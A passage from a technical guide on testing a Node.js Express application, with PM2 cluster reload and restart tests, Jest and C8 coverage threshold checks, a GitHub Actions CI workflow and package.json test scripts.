      // Start continuous requests
      const requestPromise = continuousRequests();

      // Wait a moment for requests to start
      await new Promise(resolve => setTimeout(resolve, 100));

      // Trigger graceful reload
      console.log('🔄 Starting graceful reload...');
      const reloadStart = Date.now();
      
      await execAsync(`pm2 reload ${appName}`);
      
      const reloadEnd = Date.now();
      reloadCompleted = true;

      // Wait for continuous requests to complete
      await requestPromise;

      const reloadTime = reloadEnd - reloadStart;
      const successRate = requestsSucceeded / (requestsSucceeded + requestsFailed);

      console.log(`Graceful Reload Results:
        Reload Time: ${reloadTime}ms
        Requests Succeeded: ${requestsSucceeded}
        Requests Failed: ${requestsFailed}
        Success Rate: ${(successRate * 100).toFixed(2)}%
      `);

      // Zero-downtime requirements
      expect(successRate).toBeGreaterThan(0.95); // > 95% success rate
      expect(reloadTime).toBeLessThan(10000);     // < 10 seconds reload time
      
      console.log('✅ Zero-downtime deployment validated');
    });

    it('should validate application health after reload', async () => {
      // Verify all processes are healthy after reload
      const { stdout } = await execAsync(`pm2 jlist`);
      const processList = JSON.parse(stdout);
      
      const appProcesses = processList.filter(proc => proc.name === appName);
      
      appProcesses.forEach(process => {
        expect(process.pm2_env.status).toBe('online');
        expect(process.pm2_env.restart_time).toBeGreaterThan(0);
      });

      // Verify application endpoints are responding
      const response = await request(`http://localhost:${testPort}`)
        .get('/health')
        .expect(200);

      expect(response.body.status).toBe('OK');
      
      console.log('✅ Application health verified after reload');
    });
  });

  describe('Process Health Monitoring', () => {
    it('should automatically restart failed processes', async () => {
      // Get initial process list
      const { stdout: initialList } = await execAsync(`pm2 jlist`);
      const initialProcesses = JSON.parse(initialList);
      const targetProcess = initialProcesses.find(proc => proc.name === appName);

      // Kill a worker process
      console.log(`🔪 Killing process PID: ${targetProcess.pid}`);
      await execAsync(`kill -9 ${targetProcess.pid}`);

      // Wait for PM2 to restart the process
      await new Promise(resolve => setTimeout(resolve, 2000));

      // Verify process was restarted
      const { stdout: newList } = await execAsync(`pm2 jlist`);
      const newProcesses = JSON.parse(newList);
      const restartedProcess = newProcesses.find(proc => 
        proc.name === appName && proc.pm_id === targetProcess.pm_id
      );

      expect(restartedProcess.pm2_env.status).toBe('online');
      expect(restartedProcess.pid).not.toBe(targetProcess.pid); // New PID
      expect(restartedProcess.pm2_env.restart_time).toBeGreaterThan(targetProcess.pm2_env.restart_time);

      // Verify application is still responding
      await request(`http://localhost:${testPort}`)
        .get('/hello')
        .expect(200);
      
      console.log('✅ Automatic process restart validated');
    });

    it('should monitor memory usage and restart if needed', async () => {
      // This test would require configuring PM2 with memory limits
      const { stdout } = await execAsync(`pm2 show ${appName}`);
      
      expect(stdout).toContain('memory :');
      
      // Verify memory monitoring is active
      const memoryMatch = stdout.match(/memory\s*:\s*(\d+\.?\d*)\s*MB/);
      if (memoryMatch) {
        const memoryUsage = parseFloat(memoryMatch[1]);
        expect(memoryUsage).toBeGreaterThan(0);
        expect(memoryUsage).toBeLessThan(1000); // Should be under 1GB
      }
      
      console.log('✅ Memory monitoring validated');
    });
  });

  describe('Performance Under PM2 Cluster', () => {
    it('should achieve better performance with multiple processes', async () => {
      const testDuration = 10000; // 10 seconds
      const startTime = Date.now();
      let requestCount = 0;
      const errors = [];

      // Continuous load testing
      while (Date.now() - startTime < testDuration) {
        try {
          await request(`http://localhost:${testPort}`)
            .get('/hello')
            .timeout(1000);
          requestCount++;
        } catch (error) {
          errors.push(error.message);
        }
      }

      const actualDuration = Date.now() - startTime;
      const requestsPerSecond = (requestCount / (actualDuration / 1000));
      const errorRate = errors.length / (requestCount + errors.length);

      console.log(`PM2 Cluster Performance:
        Duration: ${actualDuration}ms
        Total Requests: ${requestCount}
        Errors: ${errors.length}
        Requests per Second: ${requestsPerSecond.toFixed(2)}
        Error Rate: ${(errorRate * 100).toFixed(2)}%
      `);

      // Performance expectations for cluster mode
      expect(requestsPerSecond).toBeGreaterThan(100); // > 100 req/sec
      expect(errorRate).toBeLessThan(0.01);           // < 1% error rate
      
      console.log('✅ Cluster mode performance validated');
    });
  });

  // Helper functions
  async function startPM2ClusterApp() {
    try {
      // Stop any existing instance
      await execAsync(`pm2 delete ${appName}`).catch(() => {});
      
      // Start with cluster mode
      await execAsync(`pm2 start src/backend/express-server.js --name ${appName} --instances max --exec-mode cluster --env production`);
      
      console.log('✅ PM2 cluster application started');
    } catch (error) {
      console.error('Failed to start PM2 application:', error);
      throw error;
    }
  }

  async function waitForAppReady() {
    const maxAttempts = 30;
    let attempts = 0;

    while (attempts < maxAttempts) {
      try {
        await request(`http://localhost:${testPort}`)
          .get('/health')
          .timeout(2000);
        
        console.log('✅ Application ready for testing');
        return;
      } catch (error) {
        attempts++;
        await new Promise(resolve => setTimeout(resolve, 1000));
      }
    }

    throw new Error('Application failed to become ready');
  }

  async function cleanupPM2() {
    try {
      await execAsync(`pm2 delete ${appName}`);
      console.log('✅ PM2 cleanup completed');
    } catch (error) {
      console.error('PM2 cleanup error:', error);
    }
  }
});
```

### Step 2: PM2 Ecosystem Configuration Testing

```javascript
// test/pm2/ecosystem-config.test.js
describe('PM2 Ecosystem Configuration Testing', () => {
  const ecosystemFile = 'ecosystem.config.js';

  it('should validate ecosystem configuration file', async () => {
    // Read and validate ecosystem configuration
    const config = await import(`../../${ecosystemFile}`);
    
    expect(config.default).toHaveProperty('apps');
    expect(Array.isArray(config.default.apps)).toBe(true);
    
    const app = config.default.apps[0];
    
    // Validate required configuration
    expect(app).toHaveProperty('name');
    expect(app).toHaveProperty('script');
    expect(app).toHaveProperty('instances');
    expect(app).toHaveProperty('exec_mode', 'cluster');
    
    // Validate environment configurations
    expect(app).toHaveProperty('env');
    expect(app).toHaveProperty('env_production');
    
    console.log('✅ Ecosystem configuration validated');
  });

  it('should start application using ecosystem file', async () => {
    try {
      await execAsync(`pm2 start ${ecosystemFile}`);
      
      // Verify startup
      const { stdout } = await execAsync(`pm2 jlist`);
      const processList = JSON.parse(stdout);
      
      expect(processList.length).toBeGreaterThan(0);
      
      // Cleanup
      await execAsync(`pm2 delete all`);
      
      console.log('✅ Ecosystem file startup validated');
    } catch (error) {
      console.error('Ecosystem startup failed:', error);
      throw error;
    }
  });
});
```

---

## Coverage Analysis

### Comprehensive Test Coverage Implementation

Achieving ≥90% code coverage requires systematic analysis of statement coverage, branch coverage, function coverage, and line coverage with automated quality gates and threshold enforcement.

#### Coverage Requirements
- ✅ **Statement Coverage**: ≥90% - All executable statements must be tested
- ✅ **Branch Coverage**: ≥85% - All conditional branches must be covered
- ✅ **Function Coverage**: ≥95% - All functions must be called during tests
- ✅ **Line Coverage**: ≥90% - All source lines must be executed

### Step 1: Jest Coverage Analysis

```javascript
// test/coverage/jest-coverage.test.js
import { describe, it, expect } from '@jest/globals';
import { spawn } from 'node:child_process';
import { readFile } from 'node:fs/promises';
import path from 'node:path';

describe('Jest Coverage Analysis', () => {
  let coverageData;

  beforeAll(async () => {
    // Run Jest with coverage to generate fresh coverage data
    await runJestWithCoverage();
    
    // Load coverage data
    coverageData = await loadCoverageData();
  });

  describe('Coverage Threshold Validation', () => {
    it('should meet global coverage thresholds', () => {
      const { total } = coverageData;
      
      expect(total.statements.pct).toBeGreaterThanOrEqual(90);
      expect(total.branches.pct).toBeGreaterThanOrEqual(85);
      expect(total.functions.pct).toBeGreaterThanOrEqual(95);
      expect(total.lines.pct).toBeGreaterThanOrEqual(90);

      console.log(`Coverage Summary:
        Statements: ${total.statements.pct}% (${total.statements.covered}/${total.statements.total})
        Branches: ${total.branches.pct}% (${total.branches.covered}/${total.branches.total})
        Functions: ${total.functions.pct}% (${total.functions.covered}/${total.functions.total})
        Lines: ${total.lines.pct}% (${total.lines.covered}/${total.lines.total})
      `);
    });

    it('should meet file-specific coverage requirements', () => {
      const criticalFiles = [
        'src/backend/express-server.js',
        'src/backend/routes/hello.js',
        'src/backend/controllers/hello-controller.js'
      ];

      criticalFiles.forEach(filePath => {
        const fileKey = path.resolve(filePath);
        const fileCoverage = coverageData[fileKey];
        
        if (fileCoverage) {
          expect(fileCoverage.statements.pct).toBeGreaterThanOrEqual(95);
          expect(fileCoverage.functions.pct).toBeGreaterThanOrEqual(100);
          
          console.log(`${filePath}: ${fileCoverage.statements.pct}% statements, ${fileCoverage.functions.pct}% functions`);
        }
      });
    });
  });

  describe('Coverage Gap Analysis', () => {
    it('should identify uncovered statements', () => {
      const uncoveredStatements = [];
      
      Object.entries(coverageData).forEach(([filePath, coverage]) => {
        if (coverage.statementMap) {
          Object.entries(coverage.s).forEach(([statementId, hits]) => {
            if (hits === 0) {
              const statement = coverage.statementMap[statementId];
              uncoveredStatements.push({
                file: filePath,
                line: statement.start.line,
                column: statement.start.column
              });
            }
          });
        }
      });

      console.log(`Found ${uncoveredStatements.length} uncovered statements`);
      
      if (uncoveredStatements.length > 0) {
        console.log('Uncovered statements:', uncoveredStatements.slice(0, 10)); // Show first 10
      }

      // Should have minimal uncovered statements
      expect(uncoveredStatements.length).toBeLessThan(20);
    });

    it('should identify uncovered branches', () => {
      const uncoveredBranches = [];
      
      Object.entries(coverageData).forEach(([filePath, coverage]) => {
        if (coverage.branchMap) {
          Object.entries(coverage.b).forEach(([branchId, hits]) => {
            hits.forEach((hit, index) => {
              if (hit === 0) {
                const branch = coverage.branchMap[branchId];
                uncoveredBranches.push({
                  file: filePath,
                  line: branch.line,
                  type: branch.type,
                  location: branch.locations[index]
                });
              }
            });
          });
        }
      });

      console.log(`Found ${uncoveredBranches.length} uncovered branches`);
      
      if (uncoveredBranches.length > 0) {
        console.log('Uncovered branches:', uncoveredBranches.slice(0, 5)); // Show first 5
      }
    });

    it('should identify uncovered functions', () => {
      const uncoveredFunctions = [];
      
      Object.entries(coverageData).forEach(([filePath, coverage]) => {
        if (coverage.fnMap) {
          Object.entries(coverage.f).forEach(([functionId, hits]) => {
            if (hits === 0) {
              const func = coverage.fnMap[functionId];
              uncoveredFunctions.push({
                file: filePath,
                name: func.name,
                line: func.line,
                column: func.loc.start.column
              });
            }
          });
        }
      });

      console.log(`Found ${uncoveredFunctions.length} uncovered functions`);
      
      if (uncoveredFunctions.length > 0) {
        console.log('Uncovered functions:', uncoveredFunctions);
      }

      // All functions should be covered (95% threshold)
      expect(uncoveredFunctions.length).toBeLessThan(2);
    });
  });

  describe('Coverage Quality Analysis', () => {
    it('should validate test quality through coverage patterns', () => {
      // Analyze coverage patterns to identify potential test quality issues
      const files = Object.keys(coverageData).filter(key => key !== 'total');
      const coverageAnalysis = [];

      files.forEach(filePath => {
        const coverage = coverageData[filePath];
        if (coverage.statements && coverage.branches && coverage.functions) {
          const analysis = {
            file: filePath,
            statements: coverage.statements.pct,
            branches: coverage.branches.pct,
            functions: coverage.functions.pct,
            quality: 'good'
          };

          // Identify quality issues
          if (coverage.statements.pct < 90) analysis.quality = 'needs_improvement';
          if (coverage.branches.pct < 80) analysis.quality = 'poor';
          if (coverage.functions.pct < 95) analysis.quality = 'needs_improvement';

          coverageAnalysis.push(analysis);
        }
      });

      const poorQualityFiles = coverageAnalysis.filter(a => a.quality === 'poor');
      const needsImprovementFiles = coverageAnalysis.filter(a => a.quality === 'needs_improvement');

      console.log(`Coverage Quality Analysis:
        Total Files: ${coverageAnalysis.length}
        Good Quality: ${coverageAnalysis.filter(a => a.quality === 'good').length}
        Needs Improvement: ${needsImprovementFiles.length}
        Poor Quality: ${poorQualityFiles.length}
      `);

      expect(poorQualityFiles.length).toBe(0); // No poor quality files allowed
      expect(needsImprovementFiles.length).toBeLessThan(3); // Minimal improvement needed
    });
  });

  // Helper functions
  async function runJestWithCoverage() {
    return new Promise((resolve, reject) => {
      const jestProcess = spawn('npm', ['test', '--', '--coverage', '--silent'], {
        stdio: 'pipe'
      });

      jestProcess.on('close', (code) => {
        if (code === 0) {
          resolve();
        } else {
          reject(new Error(`Jest coverage failed with code ${code}`));
        }
      });
    });
  }

  async function loadCoverageData() {
    try {
      const coverageFilePath = path.resolve('coverage/coverage-final.json');
      const coverageJson = await readFile(coverageFilePath, 'utf8');
      return JSON.parse(coverageJson);
    } catch (error) {
      throw new Error(`Failed to load coverage data: ${error.message}`);
    }
  }
});
```

### Step 2: C8 Coverage Analysis (for Mocha)

```javascript
// test/coverage/c8-coverage.test.js
describe('C8 Coverage Analysis', () => {
  let c8CoverageData;

  beforeAll(async () => {
    // Run Mocha with C8 coverage
    await runMochaWithC8Coverage();
    
    // Load C8 coverage data
    c8CoverageData = await loadC8CoverageData();
  });

  describe('C8 Coverage Validation', () => {
    it('should meet C8 coverage thresholds', () => {
      const summary = c8CoverageData['coverage-summary'];
      
      expect(summary.lines.pct).toBeGreaterThanOrEqual(90);
      expect(summary.statements.pct).toBeGreaterThanOrEqual(90);
      expect(summary.functions.pct).toBeGreaterThanOrEqual(95);
      expect(summary.branches.pct).toBeGreaterThanOrEqual(85);

      console.log(`C8 Coverage Summary:
        Lines: ${summary.lines.pct}%
        Statements: ${summary.statements.pct}%
        Functions: ${summary.functions.pct}%
        Branches: ${summary.branches.pct}%
      `);
    });

    it('should compare Jest and C8 coverage results', () => {
      // Compare coverage results between Jest and C8
      const jestSummary = coverageData.total;
      const c8Summary = c8CoverageData['coverage-summary'];

      const comparison = {
        statements: {
          jest: jestSummary.statements.pct,
          c8: c8Summary.statements.pct,
          diff: Math.abs(jestSummary.statements.pct - c8Summary.statements.pct)
        },
        functions: {
          jest: jestSummary.functions.pct,
          c8: c8Summary.functions.pct,
          diff: Math.abs(jestSummary.functions.pct - c8Summary.functions.pct)
        }
      };

      console.log('Jest vs C8 Coverage Comparison:', comparison);

      // Coverage results should be similar (within 5% variance)
      expect(comparison.statements.diff).toBeLessThan(5);
      expect(comparison.functions.diff).toBeLessThan(5);
    });
  });

  async function runMochaWithC8Coverage() {
    return new Promise((resolve, reject) => {
      const c8Process = spawn('npx', ['c8', '--reporter=json', 'mocha'], {
        stdio: 'pipe'
      });

      c8Process.on('close', (code) => {
        if (code === 0) {
          resolve();
        } else {
          reject(new Error(`C8 coverage failed with code ${code}`));
        }
      });
    });
  }

  async function loadC8CoverageData() {
    try {
      const c8CoverageFile = path.resolve('coverage/coverage.json');
      const c8CoverageJson = await readFile(c8CoverageFile, 'utf8');
      return JSON.parse(c8CoverageJson);
    } catch (error) {
      throw new Error(`Failed to load C8 coverage data: ${error.message}`);
    }
  }
});
```

### Step 3: Coverage Reporting and Documentation

```javascript
// test/coverage/coverage-reporting.test.js
describe('Coverage Reporting and Documentation', () => {
  describe('HTML Coverage Report Generation', () => {
    it('should generate comprehensive HTML coverage report', async () => {
      // Ensure HTML coverage report exists
      const htmlReportPath = path.resolve('coverage/lcov-report/index.html');
      
      try {
        await readFile(htmlReportPath, 'utf8');
        console.log('✅ HTML coverage report generated');
      } catch (error) {
        throw new Error('HTML coverage report not found');
      }
    });

    it('should validate coverage report completeness', async () => {
      const lcovReportPath = path.resolve('coverage/lcov.info');
      
      try {
        const lcovContent = await readFile(lcovReportPath, 'utf8');
        
        // Validate LCOV report contains required sections
        expect(lcovContent).toContain('TN:'); // Test name
        expect(lcovContent).toContain('SF:'); // Source file
        expect(lcovContent).toContain('FN:'); // Function
        expect(lcovContent).toContain('DA:'); // Lines
        expect(lcovContent).toContain('BR:'); // Branches
        expect(lcovContent).toContain('end_of_record');
        
        console.log('✅ LCOV coverage report validated');
      } catch (error) {
        throw new Error('LCOV coverage report validation failed');
      }
    });
  });

  describe('Coverage Trends Analysis', () => {
    it('should track coverage trends over time', async () => {
      // This would typically integrate with a coverage tracking system
      const currentCoverage = {
        statements: coverageData.total.statements.pct,
        branches: coverageData.total.branches.pct,
        functions: coverageData.total.functions.pct,
        lines: coverageData.total.lines.pct,
        timestamp: new Date().toISOString()
      };

      // Store coverage data for trend analysis
      await storeCoverageTrend(currentCoverage);

      // Validate coverage hasn't decreased
      const previousCoverage = await getLastCoverageTrend();
      if (previousCoverage) {
        expect(currentCoverage.statements).toBeGreaterThanOrEqual(previousCoverage.statements - 1);
        expect(currentCoverage.functions).toBeGreaterThanOrEqual(previousCoverage.functions - 1);
      }

      console.log('✅ Coverage trends tracked');
    });
  });

  // Helper functions for coverage tracking
  async function storeCoverageTrend(coverageData) {
    // In a real implementation, this would store to a database or file
    console.log('Storing coverage trend:', coverageData);
  }

  async function getLastCoverageTrend() {
    // In a real implementation, this would retrieve from storage
    return null; // No previous data for first run
  }
});
```

---

## Test Automation

### CI/CD Integration and Automated Testing

Implementing comprehensive test automation ensures consistent quality validation through continuous integration, automated test execution, and quality gate enforcement.

#### Test Automation Objectives
- ✅ **Continuous Integration**: Automated test execution on code changes
- ✅ **Quality Gates**: Automated coverage and quality threshold enforcement
- ✅ **Parallel Execution**: Optimized test performance across multiple environments
- ✅ **Automated Reporting**: Comprehensive test results and coverage reporting
- ✅ **Failure Handling**: Intelligent test failure analysis and notification

### Step 1: GitHub Actions CI/CD Integration

```yaml
# .github/workflows/testing.yml
name: Comprehensive Testing Pipeline

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main, develop ]

env:
  NODE_VERSION: '22.x'
  CI: true

jobs:
  test-setup:
    runs-on: ubuntu-latest
    outputs:
      cache-key: ${{ steps.cache-key.outputs.key }}
    steps:
      - uses: actions/checkout@v4
      
      - name: Generate cache key
        id: cache-key
        run: echo "key=node-modules-${{ hashFiles('**/package-lock.json') }}" >> $GITHUB_OUTPUT

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ env.NODE_VERSION }}
          cache: 'npm'

      - name: Install dependencies
        run: npm ci

      - name: Cache node modules
        uses: actions/cache@v3
        with:
          path: node_modules
          key: ${{ steps.cache-key.outputs.key }}
          restore-keys: |
            node-modules-

  unit-tests:
    needs: test-setup
    runs-on: ubuntu-latest
    strategy:
      matrix:
        test-framework: [jest, mocha]
    
    steps:
      - uses: actions/checkout@v4
      
      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ env.NODE_VERSION }}

      - name: Restore dependencies
        uses: actions/cache@v3
        with:
          path: node_modules
          key: ${{ needs.test-setup.outputs.cache-key }}

      - name: Run Jest tests
        if: matrix.test-framework == 'jest'
        run: |
          npm run test:jest -- --coverage --ci --watchAll=false --maxWorkers=2
          
      - name: Run Mocha tests
        if: matrix.test-framework == 'mocha'
        run: |
          npm run test:mocha:coverage

      - name: Upload coverage to Codecov
        uses: codecov/codecov-action@v3
        with:
          files: ./coverage/lcov.info
          flags: ${{ matrix.test-framework }}
          name: codecov-${{ matrix.test-framework }}

  integration-tests:
    needs: test-setup
    runs-on: ubuntu-latest
    
    steps:
      - uses: actions/checkout@v4
      
      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ env.NODE_VERSION }}

      - name: Restore dependencies
        uses: actions/cache@v3
        with:
          path: node_modules
          key: ${{ needs.test-setup.outputs.cache-key }}

      - name: Run integration tests
        run: npm run test:integration

      - name: Run security tests
        run: npm run test:security

      - name: Run performance tests
        run: npm run test:performance

  cross-platform-tests:
    needs: test-setup
    runs-on: ${{ matrix.os }}
    strategy:
      matrix:
        os: [ubuntu-latest, windows-latest, macos-latest]
        
    steps:
      - uses: actions/checkout@v4
      
      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ env.NODE_VERSION }}

      - name: Install dependencies
        run: npm ci

      - name: Run cross-platform tests
        run: npm run test:cross-platform

  quality-gates:
    needs: [unit-tests, integration-tests]
    runs-on: ubuntu-latest
    
    steps:
      - uses: actions/checkout@v4
      
      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ env.NODE_VERSION }}

      - name: Restore dependencies
        uses: actions/cache@v3
        with:
          path: node_modules
          key: ${{ needs.test-setup.outputs.cache-key }}

      - name: Run comprehensive coverage analysis
        run: |
          npm run test:coverage
          npm run coverage:check

      - name: Validate quality gates
        run: |
          npm run quality:check
          npm run lint
          npm run security:audit

      - name: Generate test report
        run: npm run test:report

      - name: Upload test artifacts
        uses: actions/upload-artifact@v3
        with:
          name: test-results
          path: |
            coverage/
            test-results/
            quality-report.json

  pm2-deployment-test:
    needs: [quality-gates]
    runs-on: ubuntu-latest
    
    steps:
      - uses: actions/checkout@v4
      
      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: ${{ env.NODE_VERSION }}

      - name: Install dependencies
        run: npm ci

      - name: Install PM2
        run: npm install -g pm2

      - name: Run PM2 deployment tests
        run: npm run test:pm2

      - name: Test zero-downtime deployment
        run: npm run test:deployment

  notification:
    needs: [quality-gates, pm2-deployment-test]
    runs-on: ubuntu-latest
    if: always()
    
    steps:
      - name: Notify success
        if: needs.quality-gates.result == 'success' && needs.pm2-deployment-test.result == 'success'
        run: echo "✅ All tests passed successfully!"

      - name: Notify failure
        if: needs.quality-gates.result == 'failure' || needs.pm2-deployment-test.result == 'failure'
        run: |
          echo "❌ Test pipeline failed!"
          exit 1
```

### Step 2: Automated Test Scripts

```json
// package.json - Comprehensive test automation scripts
{
  "scripts": {
    "test": "npm run test:all",
    "test:all": "npm run test:jest && npm run test:mocha && npm run test:integration",
    
    "test:jest": "jest",
    "test:jest:coverage": "jest --coverage",
    "test:jest:watch": "jest --watch",
    "test:jest:ci": "jest --ci --coverage --watchAll=false",
    
    "test:mocha": "mocha",
    "test:mocha:coverage": "c8 mocha",
    "test:mocha:watch": "mocha --watch",
    
    "test:integration": "jest --testPathPattern=integration",
    "test:security": "jest --testPathPattern=security",
    "test:performance": "jest --testPathPattern=performance",
    "test:cross-platform": "jest --testPathPattern=cross-platform",
    "test:pm2": "jest --testPathPattern=pm2",
    
    "test:coverage": "npm run test:jest:coverage && npm run test:mocha:coverage",
    "coverage:check": "c8 check-coverage --lines 90 --functions 95 --branches 85 --statements 90",
    "coverage:report": "npm run test:coverage && open coverage/lcov-report/index.html",
    
    "test:deployment": "node scripts/test-deployment.js",
    "test:report": "node scripts/generate-test-report.js",
    
    "quality:check": "npm run lint && npm run security:audit && npm run coverage:check",
    "lint": "eslint src/ test/ --ext .js",
    "security:audit": "npm audit --audit-level moderate",
    
    "test:watch:all": "concurrently \"npm run test:jest:watch\" \"npm run test:mocha:watch\"",
    "test:debug": "node --inspect-brk node_modules/.bin/jest --runInBand"
  }
}
```

### Step 3: Automated Test Execution Script